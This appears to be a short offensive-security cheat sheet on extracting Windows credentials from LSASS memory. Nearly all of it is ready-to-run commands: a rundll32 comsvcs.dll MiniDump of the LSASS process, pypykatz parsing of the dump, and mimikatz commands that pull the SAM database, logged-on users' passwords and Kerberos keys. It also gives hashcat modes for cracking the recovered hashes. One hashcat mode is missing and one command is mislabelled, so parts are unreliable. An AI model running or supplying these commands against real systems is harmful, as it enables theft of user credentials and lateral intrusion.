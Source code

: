 Local Security Authority Subsystem Service Memory is responsible for verifying credentials when user logs in, password change, creating access tokens... This service stores credential in memory.
- Dumping LSASS process memory is easily traceable, should be avoided when possible.

Hash format:
- NTLM/RC4-HMAC (hashcat 1000)
- des_cbc_md4 (hashcat )
- aes256-cts-hmac-sha1-96 (hashcat 28900)

(Task Manger) Dumping LSASS memory file
```
Task Manager > Processes > right click Local Security Authority Process > Create dump file
```
(LOLBAS) Dumping LSASS memory file
```powershell
rundll32 C:\windows\system32\comsvcs.dll, MiniDump <LSASS PID> C:\lsass.dmp full
```
(Pypykatz) Reading LSASS memory dump file
```bash
pypykatz lsa minidump lsass.dmp
```
(Mimikatz) Dumping LSASS memory SAM database
```powershell
mimikatz.exe lsadump::sam
```
(Mimikatz) Dumping LSASS memory recently logged in users
```powershell
mimikatz.exe sekurlsa::logonpasswords
```
(Mimikatz) Kerberos keys encryption keys
```bash
mimikatz.exe sekurlsa::ekeys
```